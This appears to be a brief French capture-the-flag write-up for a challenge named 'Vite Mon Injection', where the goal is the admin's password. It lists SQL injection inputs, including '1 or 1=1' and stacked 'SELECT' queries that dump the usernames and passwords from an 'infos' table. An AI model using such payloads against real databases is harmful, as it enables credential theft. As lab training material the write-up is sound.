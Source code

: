 # Vite Mon Injection

![img](./0.png)
![img](./1.png)

## Challenge :

Récupérer le mot de passe de l'admin

## Stratégie :

On peut déjà regarder comment ça fonctionne :

 - Avec `1` => `Pas de résultat`
 - Avec `1 or 1=1` => `2`

On va voir une requête simple :

 - `1; SELECT username, password FROM infos` => `Tout les mots de passe`
 - `1; SELECT password FROM infos where username='admin'` => `Le bon mot de passe`
 
 Il suffit juste de CTRL+F maintenant.